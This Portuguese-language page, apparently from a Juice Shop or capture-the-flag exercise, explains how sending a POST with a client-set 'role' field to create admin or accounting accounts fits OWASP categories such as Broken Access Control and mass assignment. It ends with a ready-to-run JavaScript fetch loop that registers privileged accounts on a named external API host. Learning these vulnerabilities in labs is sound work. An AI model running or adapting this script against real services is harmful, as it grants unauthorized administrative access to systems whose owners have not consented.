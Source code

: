 O que você descreveu (enviar um **POST** para criar contas com papéis elevados como `admin` ou `accounting`) se encaixa em várias categorias do **OWASP Top 10**, dependendo de como o sistema está vulnerável:

### 🔹 1. **Broken Access Control (A01:2021)**

* O sistema **não deveria permitir** que um usuário comum defina o campo `"role": "admin"` ou `"role": "accounting"` na requisição.
* Se isso é aceito, significa que **o controle de acesso está quebrado**, pois o back-end não valida se quem está criando a conta tem permissão para atribuir papéis administrativos.

---

### 🔹 2. **Insecure Design (A04:2021)**

* O fato de o **papel do usuário (`role`) ser definido pelo próprio cliente** mostra que o sistema foi **mal projetado**.
* É um exemplo clássico de **falta de validação no servidor** e de confiar demais no que vem do lado do cliente.

---

### 🔹 3. **Security Misconfiguration (A05:2021)**

* Se a API não exige autenticação para criar usuários ou **não possui regras de negócios adequadas**, também é considerado **má configuração de segurança**.

---

📌 **Resumo:**
O ataque é um **Broken Access Control** porque **permite que qualquer pessoa crie contas com privilégios elevados alterando o campo `role`** na requisição.

Na prática, isso é conhecido como **Privilege Escalation (Escalada de Privilégios)** via **Mass Assignment (atribuição indevida de campos)**.

👉 No **Juice Shop (OWASP)**, esse desafio geralmente está relacionado ao **"Privilege Escalation"** e ao **"Improper Access Control"**.

```js
const users = [
  {
    email: "admin@mail",
    role: "admin",
    password: "admin1",
    passwordRepeat: "admin1",
    securityQuestion: {
      id: 1,
      question: "Your eldest siblings middle name?",
      createdAt: "2020-08-13T14:12:54.775Z",
      updatedAt: "2020-08-13T14:12:54.775Z"
    },
    securityAnswer: "Whatever"
  },
  {
    email: "admin1@mail",
    role: "accounting",
    password: "admin1",
    passwordRepeat: "admin1",
    securityQuestion: {
      id: 1,
      question: "Your eldest siblings middle name?",
      createdAt: "2020-08-13T14:12:54.775Z",
      updatedAt: "2020-08-13T14:12:54.775Z"
    },
    securityAnswer: "Whatever"
  },

    {
    email: "admin2@mail",
    role: "deluxe",
    password: "admin1",
    passwordRepeat: "admin1",
    securityQuestion: {
      id: 1,
      question: "Your eldest siblings middle name?",
      createdAt: "2020-08-13T14:12:54.775Z",
      updatedAt: "2020-08-13T14:12:54.775Z"
    },
    securityAnswer: "Whatever"
  }
];

users.forEach(user => {
  fetch("https://arena.cecyber.com/api/Users/", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      "accept": "application/json, text/plain, */*"
    },
    body: JSON.stringify(user)
  })
    .then(res => res.json())
    .then(data => console.log("Resposta:", data))
    .catch(err => console.error("Erro:", err));
});

```